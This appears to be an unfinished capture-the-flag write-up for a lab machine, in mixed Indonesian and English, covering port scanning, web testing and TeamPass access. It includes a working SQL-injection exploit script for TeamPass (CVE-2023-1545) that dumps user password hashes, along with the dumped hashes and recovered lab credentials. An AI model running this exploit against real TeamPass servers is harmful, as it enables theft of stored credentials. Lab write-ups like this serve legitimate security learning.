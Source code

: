 ![](Pasted%20image%2020250223103627.png)
# 1.  Service Enumeration

| IP  | Port       |
| --- | ---------- |
| TCP | 22,80,8080 |
| UDP | -          |
## A.  TCP Active Port 
![](Pasted%20image%2020250223103808.png)
## B. UDP Active Port
No result.
## C.  Domain
![](Pasted%20image%2020250223112458.png)
add them to /etc/host
# 2. Initial Access
## A. Web
Port 80
fitur:
- Login
- Forgot Password
![](Pasted%20image%2020250223104349.png)
Port 8080 
Fitur:
- Login, ada satu form unik dengan value 60
- menggunakan **Teampass** -> coba cek versi nya
![](Pasted%20image%2020250223104646.png)
## B. Directory
ga bisa ada waf kedua web servernya
![](Pasted%20image%2020250223111956.png)
ada rate limiting
![](Pasted%20image%2020250223104841.png)
## C. checker.htb Forgot Password
reflected
![](Pasted%20image%2020250223113128.png)
cannot be exploited yet
![](Pasted%20image%2020250223122524.png)
coba test SQLi injection save it to file, and send it to sqlmap
![](Pasted%20image%2020250223212122.png)
tidak berhasil
## D. Teampass
tidak menemukan version, coba cari manual
https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612
[CVE-2023-1545](https://www.cve.org/CVERecord?id=CVE-2023-1545)
![](Pasted%20image%2020250224142310.png)
```
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

dapat credential
![](Pasted%20image%2020250224144238.png)
```
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

berhasil crack -> cheerleader
![](Pasted%20image%2020250224150057.png)
![](Pasted%20image%2020250224150212.png)
## E. Credential on teampass
bob@checker.htb mYSeCr3T_w1kI_P4sSw0rD
![](Pasted%20image%2020250224153732.png)
bisa login![](Pasted%20image%2020250224194525.png)
reader hiccup-publicly-genesis
![](Pasted%20image%2020250224153936.png)
tidak bisa login
![](Pasted%20image%2020250224154041.png)
## Analisa Checker.htb
1. Search
   try input ' -> input validasi, no error
2. Shelves
   - create shelves -> no html injection
   - upload cover -> invalid fil
   -  tag -> no xss
3. Books
   - create shelves -> no html injection
   - upload cover -> invalid fil
   -  tag -> no xss
ada OTP setup, coba pake menggunakan google authenticator
![](Pasted%20image%2020250224211926.png)
Coba ganti vpn ke US (Tips dari Forum)
masukkan kode otp dari situs ini
![](Pasted%20image%2020250225093354.png)
Berhasil
![](Pasted%20image%2020250225093436.png)
ternyata Bookstack ada versinya juga hmmmmm






# 3. Privilege Escalation
## a. 

# 4. Post Exploitation
## a. User Flag
## b. Root Flag
